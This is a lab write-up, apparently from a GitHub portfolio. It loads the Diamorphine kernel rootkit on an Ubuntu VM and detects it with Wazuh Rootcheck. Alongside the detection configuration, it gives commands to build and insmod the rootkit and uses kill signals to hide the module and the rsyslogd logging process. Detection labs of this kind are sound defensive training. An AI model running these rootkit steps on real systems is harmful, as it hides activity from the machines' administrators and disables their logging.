



# Rootkit Detection with Wazuh — Diamorphine Lab

## Objective
Simulate a kernel-level rootkit attack using Diamorphine on an Ubuntu endpoint and detect the hidden processes using Wazuh's built-in rootcheck scanner.

## Tools Used
- Ubuntu (Wazuh Agent/Endpoint)
- Kali Linux (Wazuh Manager)
- Wazuh Rootcheck
- Diamorphine Rootkit
- VirtualBox

---

## Background

A rootkit is a type of malware that hides itself and other things on a system — processes, files, network connections — so that defenders cannot easily detect it. Diamorphine is a kernel-level rootkit used in security labs to simulate how attackers hide their tracks after gaining access to a system.

Wazuh has a built-in module called **Rootcheck** that scans endpoints for signs of rootkits, hidden processes, and suspicious kernel modules. By default it runs every 12 hours — this lab configures it to run every 2 minutes so we can see results faster.

---

## Part 1 — Configure Wazuh Agent for Rootcheck

### 1. Switch to root and update the system

```bash
sudo -i
apt update
```

### 2. Install packages required for building the rootkit

```bash
apt -y install gcc git
```

### 3. Configure rootcheck scan frequency

Open the Wazuh agent config file:

```bash
nano /var/ossec/etc/ossec.conf
```

Under the `<rootcheck>` block, paste the following to enable all checks and set the scan to run every 2 minutes:

```xml
<disabled>no</disabled>
<check_files>yes</check_files>
<check_trojans>yes</check_trojans>
<check_dev>yes</check_dev>
<check_sys>yes</check_sys>
<check_pids>yes</check_pids>
<check_ports>yes</check_ports>
<check_if>yes</check_if>
<!-- rootcheck execution frequency - every 12 hours by default -->
<frequency>120</frequency>
<rootkit_files>etc/shared/rootkit_files.txt</rootkit_files>
<rootkit_trojans>etc/shared/rootkit_trojans.txt</rootkit_trojans>
<skip_nfs>yes</skip_nfs>
```

### 4. Restart the Wazuh agent to apply the changes

```bash
systemctl restart wazuh-agent
```

---

## Part 2 — Attack Emulation

### 1. Clone the Diamorphine rootkit from GitHub

```bash
git clone https://github.com/m0nad/Diamorphine
```


### 2. Install the make tool

```bash
sudo apt install make
```

### 3. Compile the rootkit

```bash
cd Diamorphine
make
```

### 4. Load the rootkit kernel module

```bash
insmod diamorphine.ko
```



> Diamorphine is now installed on the Ubuntu endpoint. By default it hides itself, so running `lsmod` will not show it.

> If you get `insmod: ERROR: could not insert module diamorphine.ko: Invalid parameters`, restart the endpoint and try again. It sometimes takes a couple of attempts.

### 5. Verify Diamorphine is hidden, then unhide it

```bash
lsmod | grep diamorphine        # returns nothing — it's hidden
kill -63 <ANY-PID>              # kill signal 63 toggles hide/unhide
lsmod | grep diamorphine        # now shows: diamorphine 16384 0
```

> Kill signal 63 does not kill the process — it tells Diamorphine to toggle its visibility. This works on any PID whether the process exists or not.

### 6. Hide the rsyslogd process

`rsyslogd` is a background process responsible for collecting system logs. Kill signal 31 tells Diamorphine to hide it from the process list without actually stopping it.

```bash
# First confirm rsyslogd is visible
ps auxw | grep rsyslogd | grep -v grep

# Hide it using kill signal 31
kill -31 <PID_OF_RSYSLOGD>

# Confirm it is now hidden
ps auxw | grep rsyslog | grep -v grep
```



> After hiding rsyslogd, the next rootcheck scan (within 2 minutes) will detect the hidden process and send an alert to Wazuh.

---

## Part 3 — Visualize Alerts on Wazuh Dashboard

Navigate to **Threat Hunting** on the Wazuh dashboard and filter by the `Tsacademy` agent. You will see alerts flagged as **"Possible kernel level rootkit"** with rule level 11.



---

## Result

Wazuh Rootcheck successfully detected the hidden process introduced by the Diamorphine rootkit and raised a high-severity alert on the dashboard. This demonstrates how Wazuh can identify signs of a kernel-level rootkit even when the malware is actively hiding itself from the system.

---

## Analyst
**Nwabueze Benita**  
[GitHub](https://github.com/IAMBENITA) | [LinkedIn](https://linkedin.com/in/benitanwabueze)
